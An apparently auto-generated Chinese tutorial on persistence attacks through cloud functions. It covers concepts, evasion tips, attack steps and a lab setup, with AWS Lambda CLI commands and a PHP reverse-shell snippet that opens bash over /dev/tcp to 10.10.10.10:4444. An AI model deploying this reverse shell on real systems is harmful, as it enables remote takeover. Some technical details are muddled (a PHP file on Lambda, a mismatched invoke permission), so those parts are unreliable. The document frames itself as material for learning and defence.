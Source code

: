 # 云函数持久化攻击的基本概念

## 1. 基本原理

云函数持久化攻击是一种利用云函数平台的存储功能，将恶意代码或恶意文件存储在云函数中，并通过特定的触发方式来执行这些恶意代码的攻击手段。这种攻击方式利用了云函数的持久性特性，使得攻击者能够长期控制目标系统，甚至潜伏在系统中持续进行恶意操作。

## 2. 类型和危害

### 2.1 类型

云函数持久化攻击可以分为两种主要类型：

#### 2.1.1 代码注入攻击

在云函数中注入恶意代码或命令，使得这些代码在云函数执行时被执行，从而实现对目标系统的控制。

#### 2.1.2 文件上传攻击

将恶意文件上传至云函数中，然后通过特定的触发方式执行这些文件，实现对目标系统的攻击。

### 2.2 危害

云函数持久化攻击的危害包括但不限于：

- 控制目标系统：攻击者可以通过云函数持久化攻击长期控制目标系统，进行恶意操作。
- 数据泄露：攻击者可以利用云函数持久化攻击获取目标系统中的敏感数据。
- 拒绝服务：攻击者可以通过云函数持久化攻击瘫痪目标系统，造成拒绝服务。

## 3. 技术原理解析

### 3.1 底层实现机制

云函数平台通常提供了存储功能，如对象存储、数据库等，攻击者可以利用这些存储功能将恶意代码或文件存储在云函数中。攻击者可以通过上传恶意代码或文件，然后通过云函数的触发方式来执行这些恶意内容。

### 3.2 高级利用技巧

#### 3.2.1 加密传输

为了避免被检测和防御，攻击者可以使用加密传输技术，将恶意代码或文件加密后上传至云函数中，然后在执行时进行解密操作。

#### 3.2.2 反射型攻击

攻击者可以利用反射型攻击技术，在云函数执行时从外部服务器获取恶意代码或文件，从而避免直接上传恶意内容至云函数。

## 4. 攻击步骤和实验环境搭建

### 4.1 攻击步骤

#### 步骤1：上传恶意代码或文件至云函数存储功能
攻击者可以使用云函数平台提供的存储功能，上传恶意代码或文件至云函数中。

#### 步骤2：触发恶意代码或文件执行
攻击者可以通过特定的触发方式，执行云函数中的恶意代码或文件。

### 4.2 实验环境搭建指南

为了演示云函数持久化攻击，我们可以搭建一个简单的实验环境：

#### 环境准备
- 云函数平台：选择一个支持云函数持久化攻击的云函数平台，如AWS Lambda、Azure Functions等。
- 恶意代码或文件：准备一个包含恶意代码的文件，如包含反弹Shell的PHP文件。

#### 实验步骤
1. 在云函数平台中创建一个新的云函数。
2. 将准备好的恶意文件上传至云函数中。
3. 设置云函数的触发方式，如HTTP触发器。
4. 触发云函数执行，查看恶意代码或文件的执行情况。

## 5. 实战演练

### 5.1 命令使用说明

#### 5.1.1 上传文件至云函数

```
aws lambda update-function-code --function-name my-function --zip-file fileb://my-function.zip
```

#### 5.1.2 设置云函数触发方式

```
aws lambda add-permission --function-name my-function --principal events.amazonaws.com --source-arn arn:aws:s3:::my-bucket --statement-id my-id --action "lambda:InvokeFunction" --source-account 123456789012
```

### 5.2 代码示例

#### PHP反弹Shell代码

```php
<?php
$ip = '10.10.10.10';
$port = 4444;
exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>
```

## 结语

通过本文的介绍，我们了解了云函数持久化攻击的基本概念、原理、类型、危害以及高级利用技巧。同时，我们也提供了详细的攻击步骤和实验环境搭建指南，希望可以帮助读者更深入地理解和防御云函数持久化攻击。在网络安全领域，持续学习和研究是至关重要的，只有不断提升自己的技术水平，才能更好地保护网络安全。

---
本文提供了云函数持久化攻击的基本概念、技术原理解析、高级利用技巧、攻击步骤和实验环境搭建指南，同时包含了实际的命令、代码示例，希望对读者有所帮助。在实际应用中，务必合法合规，避免违法行为。

---

*文档生成时间: 2025-03-13 22:31:22*
